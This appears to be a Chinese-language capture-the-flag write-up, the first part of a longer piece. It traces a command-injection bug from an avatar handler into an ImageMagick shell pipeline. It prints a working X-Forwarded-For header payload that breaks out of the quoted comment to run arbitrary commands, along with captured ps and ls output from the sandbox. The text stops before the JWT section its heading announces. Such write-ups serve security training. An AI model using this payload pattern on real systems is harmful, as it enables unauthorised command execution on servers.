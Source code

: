 

## Part 1 命令注入、JWT泄露导致Token伪造

### 漏洞点

在`main_sandboxCmd`中，存在执行命令的功能，且命令中部分内容可控，因此可以进行命令注入  

调用顺序

```
main_handleProfile  > main_getAvatar > main_sandboxCmd
```

在 `main_getAvatar `中有两处调用 `main_sandboxCmd `，是为了对Post的avatar内容进行处理，处理完的结果会base返回给用户

第一处为

```
convert -size %dx%d xc:none -bordercolor %s -border 0 -pointsize 32 -font %s -gravity center -draw "text 0,2 %c" png:- | base64 -w0
```

第二处为

```
base64 -d | convert -comment 'uploaded by %s' - -resize %dx%d png:- | base64 -w0
```

其中第二处的 `uploaded by %s  `由 `main_getIPAddr` 获得，`main_getIPAddr  `会从请求头中的  `X-Forwarded-For `取出，而`X-Forwarded-For`是我们可控的，因此只需要在`X-Forwarded-For`中进行注入即可

```
headers = {
        "X-Forwarded-For": "1.1.1.1' | echo $(%s | base64 -w0) MAGICMAGIC '" % command,
    }
```

该操作需要一个授权用户，因此需要先进行登录获取一个合法用户的`token`再命令注入

```
>>> print(run_command("ps").decode())
PID TTY      STAT   TIME COMMAND
    1 ?        SNs    0:00 /bin/sh -c base64 -d | convert -comment 'uploaded by 1.1.1.1' | echo $(ps ax | base64 -w0) MAGICMAGIC ', 89.xxxxxxxxx' - -resize 48x48 png:- | base64 -w0
    4 ?        SN     0:00 /bin/sh -c base64 -d | convert -comment 'uploaded by 1.1.1.1' | echo $(ps ax | base64 -w0) MAGICMAGIC ', 89.xxxxxxxxx' - -resize 48x48 png:- | base64 -w0
    5 ?        SN     0:00 base64 -w0
    6 ?        SN     0:00 /bin/sh -c base64 -d | convert -comment 'uploaded by 1.1.1.1' | echo $(ps ax | base64 -w0) MAGICMAGIC ', 89.xxxxxxxxx' - -resize 48x48 png:- | base64 -w0
    7 ?        RN     0:00 ps ax
    8 ?        RN     0:00 /bin/sh -c base64 -d | convert -comment 'uploaded by 1.1.1.1' | echo $(ps ax | base64 -w0) MAGICMAGIC ', 89.xxxxxxxxx' - -resize 48x48 png:- | base64 -w0
```

通过注入`ps`命令观察到，程序应该是跑在沙箱中的，后面发现是用`nsjail`启动的

```python
>>> print(run_command("ls").decode()) 
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
```